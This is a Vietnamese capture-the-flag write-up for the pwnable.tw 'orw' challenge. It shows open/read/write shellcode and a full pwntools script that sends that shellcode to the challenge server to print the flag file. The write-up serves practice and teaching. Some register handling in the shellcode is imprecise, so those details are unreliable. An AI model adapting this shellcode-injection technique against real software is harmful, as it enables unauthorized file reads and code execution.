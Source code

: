 # pwnable.tw - Orw

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
orw: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=e60ecccd9d01c8217387e8b77e9261a1f36b5030, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX disabled
PIE:      No PIE (0x8048000)
RWX:      Has RWX segments
```

Chỉ có `canary` enable

Tiếp đến đưa file vào ida-32bit

![ida.png](images/ida.png)

Ở đâu yêu cầu đầu vào là 1 chuỗi shellcode và chương trình thực thi shellcode đó

# 2. Ý tưởng

Ở bài này yêu cầu đầu vào là shellcode và chương trình thực thi nó

Nhưng ở đây chỉ được sử dụng các syscall `open` `read` `write` được phép thực thi:

![hint.png](images/hint.png)

Thêm cả địa chỉ flag file được cho

-> Viết shellcode đọc và ghi file flag.

# 3. Khai thác

- Shellcode:

```
section .text 
	global _start
	
_start: 
	push esp
	push 0x00006761
	push 0x6c662f77
	push 0x726f2f65
	push 0x6d6f682f             ;push '/home/orw/flag' to stack
    
	mov eax, 0x5				;sys_open
	mov ebx, esp				;push esp to ebx
	int 0x80
    
	mov eax, 0x3				;sys_read
	mov ebx, eax
    mov ecx, esi
	mov edx, 0x100
	int 0x80
    
	mov eax, 0x4				;sys_write
    mov ebx, 0x1
	int 0x80
```

Ở shellcode này đơn giản là đưa chuỗi `/home/orw/flag` vào stack rồi đọc và in ra thôi.

# Cat_flag

![flag.png](images/flag.png)


# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("orw")
libc = elf.libc

local = False 
if local:
    p = process("./orw")
    gdb.attach(p,'''
        b *main*58
        c
    ''')
else:
    p = remote('chall.pwnable.tw', 10001)

elf = context.binary = ELF('./orw', checksec=False)

shellcode = asm(
    '''
    push esp
	push 0x00006761
	push 0x6c662f77
	push 0x726f2f65
	push 0x6d6f682f
    
	mov ebx, esp
	mov eax, 0x5				#sys_open
	int 0x80
    
	mov eax, 0x3				#sys_read
	mov ebx, eax
    mov ecx, esi
	mov edx, 0x100
	int 0x80
    
	mov eax, 0x4				#sys_write
    mov ebx, 0x1
	int 0x80
    '''
) 

payload = flat(
    shellcode
    )
p.sendafter(b"shellcode:",payload)
p.interactive()
```


